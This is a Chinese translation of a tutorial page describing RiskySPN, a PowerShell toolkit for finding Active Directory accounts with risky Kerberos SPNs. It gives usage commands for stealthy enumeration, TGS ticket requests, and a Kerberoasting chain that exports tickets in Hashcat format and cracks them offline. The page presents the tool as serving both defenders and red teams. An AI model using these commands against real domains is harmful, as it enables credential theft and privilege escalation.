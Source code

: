 # RiskySPN–PowerShell 脚本的集合，主要用于检测和滥用 SPNs 帐户

> 原文：<https://kalilinuxtutorials.com/riskyspn-detect-abuse-risky-spns/>

**RiskySPN** 是一组 PowerShell 脚本，主要用于检测和滥用与 SPN(服务主体名称)相关的帐户。该模块可以帮助蓝队识别潜在的风险 SPN，并帮助红队利用 Kerberos 和 Active Directory 提升权限。

**也可阅读 [Metasploit 框架——渗透测试、漏洞利用开发和漏洞研究初学者指南](https://kalilinuxtutorials.com/metasploit-framework/)**

## **RiskySPN 用法**

### **安装模块**

```
Import-Module .\RiskySPNs.psm1
```

##### **或者直接加载脚本(你也可以`IEX`从网上)**

```
. .\Find-PotentiallyCrackableAccounts.ps1
```

确保`Set-ExecutionPolicy`是`Unrestricted`或`Bypass`

### **获取关于功能的信息**

```
Get-Help Get-TGSCipher -Full
```

所有功能也有`-Verbose`模式

### **搜索易受攻击的 SPN**

##### **查找易受攻击的账户**

```
**Find-PotentiallyCrackableAccounts**
```

敏感+ RC4 = $$$

##### **生成关于易受攻击账户的完整详细报告(CISO < 3)**

```
Export-PotentiallyCrackableAccounts
```

### **获取门票**

##### **为 SPN 请求 Kerberos TGS**

```
Get-TGSCipher -SPN "MSSQLSvc/prodDB.company.com:1433"
```

##### **或**

```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher
```

### 有趣的东西🙂

```
Find-PotentiallyCrackableAccounts -Sensitive -Stealth -GetSPNs | Get-TGSCipher -Format "Hashcat" | Out-File crack.txt
oclHashcat64.exe -m 13100 crack.txt -a 3
```

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/cyberark/RiskySPN)